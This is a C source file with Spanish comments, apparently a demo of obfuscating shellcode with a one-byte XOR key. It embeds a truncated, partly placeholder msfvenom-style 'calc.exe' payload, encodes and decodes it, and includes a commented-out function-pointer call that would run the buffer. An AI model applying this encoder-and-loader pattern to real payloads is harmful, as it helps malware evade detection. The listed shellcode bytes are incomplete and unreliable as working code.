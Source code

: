 #include <stdio.h>
#include <windows.h>

//=============================================
// Codificador/Decodificador XOR con clave de 1 byte
//=============================================
// Funciona para codificar y decodificar gracias a la simetría del XOR.
// Ejemplo: ABBA
//
// buffer: puntero a los datos (puede ser texto plano o cifrado)
// size: cantidad de bytes a procesar
// key: clave XOR de 1 byte para ofuscar el buffer
void EncodeXOR_StaticByte(unsigned char* buffer, size_t size, unsigned char key) {
    for (size_t index = 0; index < size; index++) {
        buffer[index] ^= key; // XORea cada byte con la clave
    }
}

int main() {
    //==========================================
    // Shellcode simulado: Ejecutar calc.exe (x86)
    //==========================================
    // Versión recortada para demo solamente
    // El shellcode original completo suele tener ~220-300 bytes
    //
    // Generado con: msfvenom -p windows/exec CMD=calc.exe -f c -b "\x00"
    unsigned char shellcode[] = {
        0x31, 0xC9,                   // xor ecx, ecx
        0x51,                         // push ecx
        0x68, 0x63, 0x61, 0x6C, 0x63, // push 'calc'
        0x54,                         // push esp
        0x88, 0xC7,                   // mov al, cl
        0x93,                         // xchg eax, ebx (ejemplo placeholder)
        0xC2, 0x77,                   // ret 0x77 (ejemplo placeholder)
        0xFF, 0xD0                    // call eax
    };

    // Guardamos el tamaño original
    size_t shellcode_len = sizeof(shellcode);

    // Clave XOR para codificar (1 byte)
    unsigned char xor_key = 0x5A; // clave arbitraria (0x5A = 'Z')

    printf("[*] Shellcode original:\n");
    for (size_t i = 0; i < shellcode_len; i++) {
        printf("\\x%02X", shellcode[i]);
    }
    printf("\n");

    // Paso 1: Codificar el shellcode
    EncodeXOR_StaticByte(shellcode, shellcode_len, xor_key);
    printf("[*] Shellcode codificado (XOR con 0x%02X):\n", xor_key);
    for (size_t i = 0; i < shellcode_len; i++) {
        printf("\\x%02X", shellcode[i]);
    }
    printf("\n");

    // Paso 2: Decodificar antes de ejecutar (misma función, XOR otra vez)
    EncodeXOR_StaticByte(shellcode, shellcode_len, xor_key);

    printf("[*] Shellcode decodificado (listo para ejecutar):\n");
    for (size_t i = 0; i < shellcode_len; i++) {
        printf("\\x%02X", shellcode[i]);
    }
    printf("\n");

    // =====================
    // Paso 3 (opcional): Ejecutar el shellcode
    // Descomentar a riesgo propio - esto va a abrir calc.exe
    //
    // void(*exec)() = (void(*)())shellcode;
    // exec();

    return 0;
}
